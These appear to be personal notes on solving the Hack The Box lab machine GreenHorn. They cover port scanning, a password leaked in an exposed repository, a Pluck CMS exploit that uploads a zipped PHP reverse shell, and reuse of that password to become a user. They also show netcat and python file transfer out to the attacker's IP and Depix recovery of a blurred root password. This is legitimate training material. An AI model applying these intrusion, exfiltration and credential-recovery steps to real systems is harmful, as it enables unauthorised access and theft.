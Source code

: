 
2024-08-13 16:34

Source:  #htb #Boot2root 

Tags: [[Linux]]
### Reconnaissance 

[[nmap]] scan tells us we have 5 ports open 
```
nmap -sS -p- -n -Pn -A --min-rate=9362 $IP
```
- `sS`: This option specifies a `SYN` scan  
- `-p-`: This option tells `nmap` to scan all `65,535` ports.  
- `-n`: This option is speeds up the scan by avoiding `DNS` resolution.  
- `-Pn`: This option disables host discovery, treating all hosts as online. This is useful for scanning hosts that may be blocking `ICMP` ping requests.  
- `--min-rate=9362`: This option sets the minimum number of packets per second to be sent during the scan. This speeds up the scan but may increase the likelihood of being detected by security systems.   
- `-A`: This option enables OS detection, version detection, script scanning, and traceroute.
```
http-title: Did not follow redirect to [http://greenhorn.htb/](http://greenhorn.htb/)
```
indicates that the HTTP service running on port 80 is configured to redirect requests to `[http://greenhorn.htb](http://greenhorn.htb/)` . However `nmap` did not follow this redirect because it doesn't resolve the `greenhorn.htb` domain name

Add an entry to your `/etc/hosts` file to map the `greenhorn.htb` domain to the IP address of the target machine

The URL parameter `file` might be used to include files on the server-side. This can potentially be exploited for Local File Inclusion (LFI) if the parameter is not properly sanitized. but this doesn't work
### Enumeration

original website served at `http://greenhorn.htb` doesn't give any hints therefore we try connecting to a different port `http://greenhorn.htb:3000` here the website served has a repo containing files of the website at the original address

on searching around a little we find that we have a password file in the `data/settings` directory. we check `data` cause `robots.txt` says not to.
we also find a `login.php` file, that doesn't take a username and the password is what we found hashed in the repo before
### Pluck CMS exploit

on logging in we find the version number, we find a [[RCE]] exploit for this on `exploitdb`
the exploit says that we can get `revshell` by uploading a zip file in the install module page of the application 
download a `php` `revshell` from `pentestmonkey` and zip it using 
```shell
zip phprevshell.zip phprevshell.php
```
### Privilege Escalation 

after getting a shell we see there is a directory name junior in the home directory that we can't access thereby suggesting that there might be a user named junior.
to check the files the junior owns use [[find]]
```bash
find / -type f -user junior 2>/dev/null
```
`su junior` to login as junior use the hashed password we found before. 
> **Remember to try out previously found passwords to login** 

along with the user.txt we also have a pdf that we can't open on that machine so we need to transfer that file to our system 
#### File transfer
##### [[File transfer]] using [[py]]

on pwnbox - 
```python 
python3 -m http.server 3333
```
on local kali
```bash
wget greenhorn.htb:3333/openvas.pdf
```
##### File Transfer using [[netcat]]

on local kali
```bash
nc -lvp 1234 > 'Using OpenVAS.pdf'
```
on pwnbox
```shell
nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'
```
here the IP is your machines tun0 IP

to open the pdf file that has quotes use eg- `'OpenVAS.pdf'`
```shell
ll Using\ OpenVAS.pdf
```

the pdf contains some instructions to login as root but the password is blurred, it is blurred image of the password pasted on top of the pdf 
to 
#### Extract image form the pdf  
##### Method 1
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```
##### Method 2
[Extract PDF images - quick, online, free - PDF24 Tools](https://tools.pdf24.org/en/extract-images)

to clean the blurred image use `Depix` tool [[stego]]
```
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```
after a while we get the password of the root user

### References
https://app.hackthebox.com/machines/GreenHorn

DEPIX - [GitHub - spipm/Depix: Recovers passwords from pixelized screenshots](https://github.com/spipm/Depix)

Walkthrough -->
[GreenHorn Hack the Box Walkthrough | by Ibrahim Isiaq Bolaji | Jul, 2024 | Medium](https://medium.com/@ibrahimbolaji50.ib/greenhorn-hack-the-box-walkthrough-2bdd839c4177)

[HackTheBox - GreenHorn CTF | by Zain | Jul, 2024 | Medium](https://medium.com/@3zain21/hackthebox-greenhorn-ctf-c2bc9c744951)
